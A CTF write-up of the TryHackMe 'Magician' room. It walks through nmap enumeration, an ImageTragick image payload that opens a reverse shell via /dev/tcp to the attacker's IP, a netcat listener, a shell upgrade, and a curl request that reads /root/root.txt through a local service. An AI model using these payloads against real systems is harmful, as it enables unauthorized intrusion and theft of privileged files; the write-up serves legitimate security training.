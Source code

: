 ```yaml
---
title: "Magician TryHackMe"
date: "08-07-2021"
author: "Reda BELHAJ"
summary: "This magical website lets you convert image file formats, room from TryHackme created by M0N573R777 and ripcurlz."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Magician/bg.jpg"
---
```

Let’s take a look at the [Magician CTF](https://tryhackme.com/room/magician) on TryHackMe.

Let’s first add the hostname to our `/etc/hosts` file, as told in the room:

```
echo "10.10.244.57 magician" | sudo tee -a /etc/hosts
```

## Enumeration
### Nmap Scan
The first step of my enumeration was a nmap scan. by the command:

```
nmap -sC -sV -T4 -p- -oN nmapscan magician
```

```
PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 63 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:35 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:35.319+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.270+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.678+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```
The “Nmap Output” displayed `3` services running under ports 21, 8080 and 8081.

## Exploring 
Navigating to the services:

- we got first a **FTP service** and I tried to connect to it as anonymous:

![FTP](/images/Magician/ftp.jpg)

- Browsing to http://magician:8080 we got a whitelabel error page and indicates that there's no explicit mapping for /error

- Browsing to http://magician:8081 we got a web application that let us convert image file formats and with the hint that we got from FTP:

```
The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

## Exploiting
After some research I've got a [github repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik#exploit-v1) that let me  exploit the web app:

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.8.174.180/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
![Payload](/images/Magician/payload.jpg)

Then I opened a netcat listener and upload the image:

```
nc -nlvp 4444
```

## User Flag
In our listener window, a reverse shell appears and I tried to upgrade NC shell with [Python](https://zsecure.uk/guides/upgrade-nc-shell-with-python-3/):

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
And I got the flag :

```
THM{******************}
```

## Root Flag
For the root flag I was thinking a privilege escalation but the hint led to another path:

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```
So I checked the network connections with netstat command:

```
netstat -anp
```

![Netstat](/images/Magician/netstats.jpg)

So first I tried to access the source code of the web app in the port **6666** with curl command. Then I got a form and an input with the name and the id of `filename` so I tested the root flag file:

```
curl -X POST http://127.0.0.1:6666 -d "filename=/root/root.txt"
```

And I got a encoded data its seems like **ROT13** algorithm:

```
echo "GUZ{******************}" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

```
THM{******************}
```
